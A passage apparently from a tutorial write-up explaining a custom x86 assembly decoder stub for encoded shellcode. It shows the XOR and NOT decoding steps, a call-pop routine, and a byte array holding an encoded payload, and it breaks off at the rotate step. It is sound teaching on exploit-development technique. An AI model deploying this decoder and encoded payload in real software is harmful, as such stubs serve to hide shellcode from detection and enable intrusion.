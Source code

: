 <figcaption class="figure-caption">Prepare registers before actually jumping to the `Decode` routine</figcaption>

```nasm
Decode:

    ; copy the length of the shellcode (previous 'push ecx') into DL
    ; and check if the two bytes are the same
    mov dl, [esp]
    cmp dl, BYTE [ebx]

    ; if they are equal jump to the next decoding operation: NOT
    je NotDecode

    ; if they aren't the equal, then XOR the byte with 'shellcode_length_least_byte'
    ;   which is the length of the shellcode XOR-ed with ROT_EVEN
    mov dl, [esi+2]
    xor BYTE [ebx], dl
```

<figcaption class="figure-caption">Perform the 1st Decoding operation (`XOR`) or move to the next one, based on the commented condition</figcaption>

```nasm
CallShellcode:

    call Shellcode
    encoded: db 0x2,0xa8,0x1e,0xa8,0xad,0x21,0xf5,0x89,0x7a,0xce,0x3d,0x89,0xfb,0xce,0x2a,0x83,0xbb,0x51,0x23,0x68,0x19,0x6c,0xf2,0xc5,0xe3,0x6c,0xf4,0xc5,0xe3,0x2c,0xc1,0xeb
```

Now that the first operation is done, it's time to move to the second one:

```nasm
Decode:

    mov dl, [esp]
    cmp dl, BYTE [ebx]
    je NotDecode

    mov dl, [esi+2]
    xor BYTE [ebx], dl

NotDecode:

    not BYTE [ebx]
```

This one is very straightforward: based on the Decode routine I've already shown, if the current byte and the one known as `shellcode_length_least_byte` are equal, it jumps to `NoteDecode` in order to perform the `NOT` operation.

After that, the shellcode has to perform the 3d decoding operation:

<blockquote>
<ol start="3">
- Rotate bytes
